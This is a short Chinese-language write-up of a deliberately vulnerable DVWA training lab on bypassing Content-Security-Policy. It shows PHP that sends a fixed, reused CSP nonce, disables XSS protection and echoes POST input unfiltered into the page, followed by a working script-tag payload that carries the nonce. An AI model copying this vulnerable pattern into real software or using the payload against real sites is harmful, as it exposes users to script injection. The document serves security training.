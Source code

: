 ### 源代码

```php
<?php

$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

header($headerCSP);

// Disable XSS protections so that inline alert boxes will work
header ("X-XSS-Protection: 0");

# <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>Whatever you enter here gets dropped directly into the page, see if you can get an alert box to pop up.</p>
    <input size="50" type="text" name="include" value="" id="include" />
    <input type="submit" value="Include" />
</form>
';
```



### 代码分析

源码中nonce参数无任何过滤，注入时直接令 nonce 为设定好的值即可。



### 漏洞利用

源码里注释居然就有一个，试一下，成功：

![image-20220828225356899](./Lab10_CSP Bypass.assets/image-20220828225356899.png)



试一下改改内容，成功

```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=" > alert('TEST')</script>
```

![image-20220828225525593](./Lab10_CSP Bypass.assets/image-20220828225525593.png)
